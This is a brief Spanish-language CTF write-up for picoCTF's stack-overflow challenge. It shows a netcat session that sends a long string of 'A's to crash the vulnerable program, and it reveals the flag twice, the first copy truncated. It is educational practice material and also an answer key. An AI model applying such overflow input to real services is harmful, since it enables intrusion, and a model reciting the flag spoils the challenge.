 ## Descripción
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/522/vuln). You can view source [here](https://artifacts.picoctf.net/c/522/vuln.c). And connect with it using:`nc saturn.picoctf.net 51110`

## Solución

``` bash
┌─[dantefx@dantefx-Inspiron5481]─[~]
└──╼ $nc saturn.picoctf.net 51110
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275f
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
